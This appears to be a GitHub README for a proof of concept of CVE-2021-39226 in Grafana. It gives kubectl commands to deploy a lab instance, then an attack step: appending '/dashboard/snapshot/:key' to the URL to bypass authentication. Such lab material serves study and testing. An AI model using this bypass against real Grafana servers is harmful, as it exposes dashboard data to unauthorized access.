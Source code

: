 # CVE-2021-39226 POC

## Deployment

```bash
kubectl apply -f grafana-depl.yaml
kubectl apply -f grafana-service.yaml
kubectl apply -f grafana-volume.yaml
```


## Attack

```bash
minikube service grafana
```

Adding the following `/dashboard/snapshot/:key` to the generated URL to baypass authentication.
